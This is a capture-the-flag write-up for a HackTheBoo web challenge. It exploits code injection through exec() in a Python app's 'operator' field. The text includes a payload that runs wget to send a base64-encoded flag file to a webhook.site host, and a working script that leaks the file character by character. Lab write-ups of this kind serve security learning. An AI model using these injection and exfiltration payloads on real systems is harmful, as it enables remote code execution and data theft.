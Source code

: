 # HackTheBoo - Evaluation Deck

* **Category:** Web
* **Points:** 200-1000
* **Author:** xcl0w3n

## Challenge

> A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

## Solution
![image](https://user-images.githubusercontent.com/78451563/198266235-88e75f7a-7e7a-4c0d-abb8-cb2cfb09bec0.png)

* In `routes.py` our data is turned into a code object using `compile()` which takes source code as input and returns a code object which is ready to be executed by the exec() function.
* Since there is no sanitization, we can inject arbitrary commands.

![image](https://user-images.githubusercontent.com/78451563/198271510-2a13624c-7d98-4a73-86c6-fd417aa78127.png)

* We can't use any other character other then integers in `current_health` and `attack_power` so instead we can inject in `operator`.
```python
;__import__('os').system('wget https://webhook.site/951a8069-3beb-48d5-1337-913373c95c7/$(cat /flag.txt|base64)');
```

### Here's an automated script:

```python
import requests

endpoint = "http://142.93.44.104:31803/api/get_health"
flag = ""

i = 0
while '}' not in flag:
	req = requests.post(endpoint,json={"current_health":"0","attack_power":"0","operator":f"+ ord(open('/flag.txt').read()[{i}]) +"})
	i += 1
	flag += chr(req.json()['message'])
	print(f"RECIEVED: {flag}")
print(f"\nFLAG: {flag}")
```

```
Flag: HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}
```
